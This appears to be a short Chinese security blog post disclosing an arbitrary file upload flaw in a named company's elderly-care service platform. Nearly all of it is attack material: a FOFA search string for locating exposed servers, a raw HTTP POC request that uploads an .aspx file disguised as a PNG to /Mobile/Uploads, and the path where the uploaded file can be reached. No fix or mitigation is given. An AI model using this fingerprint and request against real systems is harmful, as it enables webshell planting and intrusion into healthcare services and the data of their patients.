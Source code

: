 #  广西金中软件集团有限公司智慧医养服务平台Uploads存在任意文件上传漏洞   
清晨  摸鱼划水   2025-04-22 03:55  
  
FOFA  
```
body="Content/css/Login/images/gtx-main-bg00004.png"
```  
  
POC  
```
# 文件上传位置：/Content/Upload/【年月】/【日】/1.aspx，如：/Content/Upload/202407/18/1.aspx
POST /Mobile/Uploads HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Content-Type: multipart/form-data; boundary=---------------------------45250802924973458471174811279
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 10338

-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

123
-----------------------------45250802924973458471174811279
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qJ5apkMXic83ricxyvRPic2abacX0ymyjAWJpP3jn7kCtMEw2icf3NQrvZ9B2LTE3uwBvWzibcNibWEEibNTmTJcYxkmw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
